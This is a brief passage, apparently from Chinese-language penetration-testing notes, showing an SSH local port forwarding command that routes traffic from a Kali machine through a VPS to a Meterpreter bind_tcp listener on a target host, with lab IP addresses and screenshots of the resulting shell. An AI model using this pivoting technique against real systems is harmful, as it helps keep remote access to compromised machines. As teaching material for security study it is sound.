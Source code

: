 ![](/img/hack/%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91/ssh/ssh_L_meterpreter_bind_tcp.png)

kali进行本地端口转发：

```bash
ssh -L localhost:1234:被攻击的目标机器:开的meterpreter端口 root@VPS的IP

ssh -L localhost:1234:10.10.10.129:5454 test@10.10.10.147
```

> 将到本地1234端口的请求通过vps(10.10.10.147)连接到目标机器的5454端口

![](/img/hack/%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91/ssh/ssh_L_meterpreter_bind_tcp_shell.png)

